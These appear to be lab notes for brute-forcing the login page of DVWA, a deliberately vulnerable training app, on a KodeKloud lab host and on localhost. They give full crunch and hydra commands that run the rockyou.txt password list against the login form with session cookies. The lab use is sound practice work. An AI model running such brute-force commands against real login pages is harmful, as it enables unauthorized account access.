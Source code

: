 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

```
hydra -f -S -l admin -P rockyou.txt 4280-port-708f1b5f85a94714.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=ebd3c9ed3e7f420323aaa061b3431fb4"
```

For localhost

```
hydra -f -s 4280 -l admin -P ../rockyou.txt localhost http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:H=Cookie: security=low; PHPSESSID=1de6c52c71ea064025e336c8124aa8e5:F=Username and/or password incorrect."
```

For local docker compose

```
hydra -f -s 4280 -l admin -P rockyou.txt localhost http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:H=Cookie: security=low; PHPSESSID=1de6c52c71ea064025e336c8124aa8e5:F=Username and/or password incorrect."
```
